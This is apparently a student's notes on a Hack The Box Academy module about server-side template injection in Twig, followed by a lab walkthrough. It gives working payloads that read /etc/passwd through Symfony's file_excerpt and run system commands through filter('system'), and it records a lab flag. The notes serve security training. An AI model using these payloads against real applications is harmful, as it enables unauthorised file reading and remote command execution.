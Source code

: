 ```yaml
---
sticker: lucide//book-template
---
```

In this section, we will explore another example of SSTI exploitation. In the previous section, we discussed exploiting SSTI in the `Jinja` template engine. This section will discuss exploiting SSTI in the `Twig` template engine. Like in the previous section, we will only focus on the SSTI exploitation and thus assume that the SSTI confirmation and template engine identification have already been done in a previous step. Twig is a template engine for the PHP programming language.

---

## Information Disclosure

In Twig, we can use the `_self` keyword to obtain a little information about the current template:


```twig
{{ _self }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_1.png)

However, as we can see, the amount of information is limited compared to `Jinja`.

---

## Local File Inclusion (LFI)

Reading local files (without using the same way as we will use for RCE) is not possible using internal functions directly provided by Twig. However, the PHP web framework [Symfony](https://symfony.com/) defines additional Twig filters. One of these filters is [file_excerpt](https://symfony.com/doc/current/reference/twig_reference.html#file-excerpt) and can be used to read local files:

```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_1_3.png)

---

## Remote Code Execution (RCE)

To achieve remote code execution, we can use a PHP built-in function such as `system`. We can pass an argument to this function by using Twig's `filter` function, resulting in any of the following SSTI payloads:


```twig
{{ ['id'] | filter('system') }}
```

   

![](https://academy.hackthebox.com/storage/modules/145/ssti/ssti_exploitation_2_3.png)

---

## Further Remarks

This module explored exploiting SSTI in the `Jinja` and `Twig` template engines. As we have seen, the syntax of each template engine is slightly different. However, the general idea behind SSTI exploitation remains the same. Therefore, exploiting an SSTI in a template engine the attacker is unfamiliar with is often as simple as becoming familiar with the syntax and supported features of that particular template engine. An attacker can achieve this by reading the template engine's documentation. However, there are also SSTI cheat sheets that bundle payloads for popular template engines, such as the [PayloadsAllTheThings SSTI CheatSheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md).

# Question
---
![](cybersecurity/images/Pasted%2520image%252020250212132712.png)

We can use the following payload to test if the page is vulnerable:

```twig
{{ _self }}
```

![](cybersecurity/images/Pasted%2520image%252020250212141640.png)

Nice, let's get RCE:

```twig
{{ ['id'] | filter('system') }}
```

![](cybersecurity/images/Pasted%2520image%252020250212141706.png)

Ok, let's read the `/` directory:

```twig
{{ ['ls /'] | filter('system') }}
```

![](cybersecurity/images/Pasted%2520image%252020250212141749.png)

We found the flag:

```twig
{{ ['cat /flag.txt'] | filter('system') }}
```

![](cybersecurity/images/Pasted%2520image%252020250212141817.png)

Flag is: 

```
HTB{5034a6692604de344434ae83f1cdbec6}
```